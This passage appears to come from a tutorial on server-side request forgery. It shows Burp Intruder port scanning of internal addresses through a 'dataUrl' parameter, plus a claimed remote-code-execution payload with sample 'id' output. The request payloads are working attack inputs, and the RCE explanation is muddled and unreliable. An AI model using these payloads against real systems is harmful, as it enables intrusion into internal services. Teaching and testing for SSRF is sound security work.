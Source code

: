 #### **Burp Suite Example:**

1. **Intercept** the request.
2. Use Burp's **Intruder** to fuzz the `dataUrl` parameter with a list of ports:

```bash
seq 1 10000 > ports.txt
```

```http
POST /fetchData HTTP/1.1
Host: webapp.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 456

dataUrl=http://127.0.0.1:FUZZ/
```

* **Expected Behavior:** The response will indicate whether the port is open or closed.
* **Response Example (Open Port):**

```http
HTTP/1.1 200 OK
Content-Type: text/html

<h1>Internal Admin Panel</h1>
<p>Welcome, admin. You have access to sensitive resources.</p>
```

***

#### **2. Exploiting SSRF for Remote Code Execution (RCE)**

An SSRF vulnerability can sometimes be used to trigger **Remote Code Execution (RCE)** if the server has access to services that can execute arbitrary commands.

**Advanced RCE Payload (Remote Code Execution):**

In Python-based web applications (e.g., Flask or Django), SSRF can be combined with Python's **os.popen()** or **subprocess** functions to execute system commands.

```http
POST /fetchData HTTP/1.1
Host: webapp.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 456

dataUrl=http://127.0.0.1:8080/system?id&fileType=pdf
```

Here, we are attempting to run the `id` command internally, which will print the user ID of the system.

* **Expected Response:**

```plaintext
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
